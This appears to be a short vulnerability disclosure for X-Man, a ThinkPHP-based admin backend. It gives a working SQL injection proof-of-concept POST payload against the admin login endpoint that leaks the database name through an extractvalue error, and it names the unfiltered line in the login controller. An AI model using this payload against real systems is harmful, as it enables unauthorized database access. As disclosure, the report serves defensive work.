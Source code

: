 X-Man is a background system developed based on the ThinkPHP framework. Due to the failure to comply with the ThinkPHP framework development standard, the SQL injection vulnerability was caused when it landed。

Poc：
http://ip/admin/login/check

POST: para=username[0]%3Dexp%26username[1]%3D=11 and(select extractvalue(1,concat(0x7e,(select database()))))%26password%3D213%26token%3D


Example：

![Image](https://user-images.githubusercontent.com/65259880/203694221-fcd95389-4b9c-497d-8b89-b98bcf781248.png)

Analyze:
file：https://github.com/imxiny/x-man/blob/master/Application/Admin/Controller/LoginController.class.php


![Image](https://user-images.githubusercontent.com/65259880/203694740-6d2af099-1bae-4343-8ee8-6ece50cfa261.png)


There is no filter of the parameter of the 60th line，So we can construct a SQL injecting POC with the ThinkPHP framework。
